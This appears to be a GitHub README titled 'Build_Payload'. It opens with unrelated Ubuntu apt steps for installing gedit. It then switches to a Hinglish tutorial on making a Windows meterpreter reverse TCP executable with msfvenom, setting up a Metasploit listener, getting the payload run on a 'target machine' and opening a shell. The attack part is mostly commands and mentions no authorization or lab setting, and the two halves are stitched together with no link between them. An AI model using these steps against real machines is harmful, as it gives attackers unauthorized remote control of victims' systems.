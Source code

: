 # Build_Payload

1. **Update Package Index**: Start by updating the package list to ensure that you have the latest information about available packages.

    ```bash
    sudo apt update
    ```

2. **Upgrade Installed Packages**: You can also upgrade any existing packages, which might help resolve dependencies.

    ```bash
    sudo apt upgrade -y
    ```

3. **Install gedit**: Now, try installing `gedit` again.

    ```bash
    sudo apt install gedit -y
    ```

4. **Change the Repository Mirror**: If you still face issues, it might be worth changing the package repository mirror. Here’s how to do it:

   - Open the sources list file:

     ```bash
     sudo nano /etc/apt/sources.list
     ```

   - Look for lines that start with `deb` and change the URLs to a different mirror. For example, you can replace `us.archive.ubuntu.com` with `archive.ubuntu.com` or any other mirror that’s geographically closer to you.

   - After editing, save and exit (in nano, you can do this by pressing `CTRL + O`, then `Enter`, and `CTRL + X`).
  
<hr>

Metasploit ke saath payload banane ke liye, aapko basic steps ko follow karna hoga. Hinglish mein main aapko simple tareeke se samjha deta hoon:

### 1. **Install Metasploit:**
   Pehle to aapko Metasploit framework install karna hoga. Agar aapke paas pehle se nahi hai, toh yeh command run karo Ubuntu ya Kali Linux mein:
   ```bash
   sudo apt update && sudo apt install metasploit-framework
   ```
   ```bash
   snap install metasploit-framework
   ```
   Isse Metasploit install ho jayega.

### 2. **Start Metasploit:**
   Jab install ho jaye, Metasploit ko start karne ke liye yeh command run karo:
   ```bash
   msfconsole
   ```
   Thodi der mein Metasploit ka console khul jayega.

### 3. **Payload Create Karna:**
   Ab aap payload banane ke liye `msfvenom` tool ka use karoge. Msvenom ka use aapko ek custom payload banane ke liye hota hai. Example ke liye, agar aap Windows ke liye ek reverse TCP payload banana chahte ho, toh yeh command run karo:

   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP> LPORT=<Port> -f exe > /path/to/save/payload.exe
   ```
   - **`LHOST`**: Aapka local IP address jisme payload connect karega (aap `ifconfig` se IP check kar sakte ho).
   - **`LPORT`**: Wo port jisme reverse connection aayega (e.g., 4444).
   - **`-f exe`**: File format EXE set karta hai, kyunki yeh Windows ke liye payload hai.

   Example:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > /home/user/mypayload.exe
   ```

### 4. **Set Up Listener in Metasploit:**
   Jab payload bana liya, ab Metasploit mein ek listener set karna padega jo payload se connection accept kare. Iske liye Metasploit console mein yeh steps follow karo:

   ```bash
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST <Your IP>
   set LPORT <Port>
   exploit
   ```
   Yeh listener reverse connection ke liye ready karega.

### 5. **Deliver the Payload:**
   Ab aapko payload target machine mein run karwana hoga. Jab wo payload execute karega, to reverse connection aapke Metasploit console mein aayega.

### 6. **Session Start:**
   Jab target machine pe payload run hoga, aapke listener pe ek meterpreter session shuru ho jayega. Uske baad aap target machine pe various commands run kar sakte ho jaise:
   ```bash
   sysinfo
   ```
   System information ke liye, ya:
   ```bash
   shell
   ```
   Shell access ke liye.

### Summary:
1. Metasploit install karo.
2. Msvenom se payload banao.
3. Listener setup karo Metasploit mein.
4. Payload target machine pe run karvao.
5. Reverse connection aake system access karlo.

Bus, is tarah aap Metasploit se ek payload create karke use kar sakte ho.
